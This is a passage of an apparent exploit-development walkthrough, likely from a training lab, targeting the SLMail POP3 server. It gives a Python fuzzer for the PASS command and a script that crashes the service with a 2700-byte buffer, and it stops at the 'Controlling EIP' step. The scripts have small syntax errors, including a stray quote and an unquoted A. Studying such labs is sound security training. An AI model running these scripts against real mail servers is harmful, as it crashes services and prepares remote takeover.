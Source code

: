 pop3-pass-fuzzer.py

```python
#!/usr/bin/python
import socket

# Create an array of buffers, while incrementing them.

buffer=["A"]
counter=100
while len(buffer) <=30:
  buffer.append("A"*counter)
  counter=counter+200

# Each one of these buffers is a password with varying lengths
for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.30.35',110))
  s.recv(1024)
  s.send('USER test\r\n'')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()

```

### Crash Replication

About 2700 bytes causes overflow for SLMail

pop3-pass-replicate-crash.py

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = A * 2700

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

### Controlling EIP
